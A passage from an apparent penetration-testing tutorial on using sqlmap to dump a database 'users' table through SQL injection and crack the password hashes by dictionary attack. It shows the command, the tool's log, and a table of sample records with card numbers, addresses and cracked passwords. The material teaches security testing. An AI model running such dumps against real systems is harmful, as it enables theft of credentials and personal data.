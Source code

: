 * * *

## Password Enumeration and Cracking

Once we identify a table containing passwords (e.g. `master.users`), we can retrieve that table with the `-T` option, as previously shown:

```shell
sqlmap -u "http://www.example.com/?id=1" --dump -D master -T users

...SNIP...
[14:31:41] [INFO] fetching columns for table 'users' in database 'master'
[14:31:41] [INFO] fetching entries for table 'users' in database 'master'
[14:31:41] [INFO] recognized possible password hashes in column 'password'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N

do you want to crack them via a dictionary-based attack? [Y/n/q] Y

[14:31:41] [INFO] using hash method 'sha1_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/local/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[14:31:41] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N

[14:31:41] [INFO] starting dictionary-based cracking (sha1_generic_passwd)
[14:31:41] [INFO] starting 8 processes
[14:31:41] [INFO] cracked password '05adrian' for hash '70f361f8a1c9035a1d972a209ec5e8b726d1055e'
[14:31:41] [INFO] cracked password '1201Hunt' for hash 'df692aa944eb45737f0b3b3ef906f8372a3834e9'
...SNIP...
[14:31:47] [INFO] cracked password 'Zc1uowqg6' for hash '0ff476c2676a2e5f172fe568110552f2e910c917'
Database: master
Table: users
[32 entries]
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | name              | email                       | phone        | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-------------------+-----------------------------+--------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| 1  | 5387278172507117 | Maynard Rice      | [email protected]      | 281-559-0172 | 1698 Bird Spring Lane  | March 1 1958      | 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             | Linemen                                           |
| 2  | 4539475107874477 | Julio Thomas      | [email protected]      | 973-426-5961 | 1207 Granville Lane    | February 14 1972  | 10945aa229a6d569f226976b22ea0e900a1fc219 (taqris)           | Agricultural product sorter                       |
| 3  | 4716522746974567 | Kenneth Maloney   | [email protected]   | 954-617-0424 | 2811 Kenwood Place     | May 14 1989       | a5e68cd37ce8ec021d5ccb9392f4980b3c8b3295 (hibiskus)         | General and operations manager                    |
| 4  | 4929811432072262 | Gregory Stumbaugh | [email protected] | 410-680-5653 | 1641 Marshall Street   | May 7 1936        | b7fbde78b81f7ad0b8ce0cc16b47072a6ea5f08e (spiderpig8574376) | Foreign language interpreter                      |
| 5  | 4539646911423277 | Bobby Granger     | [email protected]     | 212-696-1812 | 4510 Shinn Street      | December 22 1939  | aed6d83bab8d9234a97f18432cd9a85341527297 (1955chev)         | Medical records and health information technician |
| 6  | 5143241665092174 | Kimberly Wright   | [email protected]   | 440-232-3739 | 3136 Ralph Drive       | June 18 1972      | d642ff0feca378666a8727947482f1a4702deba0 (Enizoom1609)      | Electrologist                                     |
```